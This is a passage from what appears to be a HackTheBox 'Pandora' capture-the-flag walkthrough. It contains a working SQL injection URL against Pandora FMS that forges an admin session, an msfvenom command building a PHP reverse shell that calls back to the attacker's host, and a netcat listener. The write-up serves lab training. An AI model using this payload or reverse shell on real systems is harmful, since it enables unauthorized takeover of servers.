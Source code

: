 ```
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario%7Cs:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```

This is referencing `localhost:8000`, but we can just have it reference `localhost` instead, since ours is on port 80 (which is implied if the port is left out of a URL for an HTTP request).

So if we open up a new tab in our browser and enter this in the address bar
```
http://localhost/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario%7Cs:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```

we get a blank page back. But don't worry, what this has actually done is given us a session token for an admin. All we need to do is reload that login page ([http://localhost/pandora_console/](http://localhost/pandora_console/)) and we're in!

![Admin Page](/assets/images/HackTheBox/Pandora/Admin_Page.png)

Now we can exploit another vulnerability in this version ([CVE-2020-7935](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7935)) to upload a new PHP file that will give us a reverse shell.

First we'll make the file using MSFVenom. Replace `<YOUR IP ADDRESS>` with your IP in the command below.

```bash
msfvenom -p php/reverse_php LHOST=<YOUR IP ADDRESS> LPORT=9002 -o shell.php
```

This will create a file called `shell.php`

Next we'll create a netcat listener on our local machine to catch the shell
```bash
nc -lvnp 9002
```
